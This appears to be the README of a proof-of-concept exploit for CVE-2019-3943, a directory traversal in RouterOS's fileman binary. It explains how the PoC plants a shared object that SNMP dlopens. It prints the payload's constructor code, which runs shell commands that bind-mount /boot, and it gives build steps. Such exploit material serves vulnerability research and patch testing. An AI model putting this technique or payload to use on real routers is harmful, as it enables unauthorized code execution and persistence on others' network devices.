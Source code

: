 # CVE-2019-3943 snmp dlopen PoC

This is an implementation of CVE-2019-3943 which is a directory traversal vulnerability affecting the fileman binary in Router OS. This vulnerability was patched in 6.44RC1. See Tenable's advisory at: https://www.tenable.com/security/research/tra-2019-16 

The PoC creates the directory //./.././.././../ram/pckg/snmp_xploit/nova/lib/snmp/ and uploads an x86 shared object called lol.so. The shared object will be dlopen'ed by snmp when it starts up. The dlopen will cause the shared object to execute:

```
void __attribute__((constructor)) lol(void)
{
    system("rm -rf /ram/pckg/snmp_xploit; mkdir /pckg/option; mount -o bind /boot/ /pckg/option;");
}
```
In order to ensure the shared object is picked up, the PoC will stop and start the SNMP process.


## What are the build dependencies?

This requires:

* Boost 1.66 or higher
* cmake

## How do I build this jawn?

Just normal cmake. Try this:

```sh
mkdir build
cd build
cmake ..
make
```

Resolve dependencies as needed.

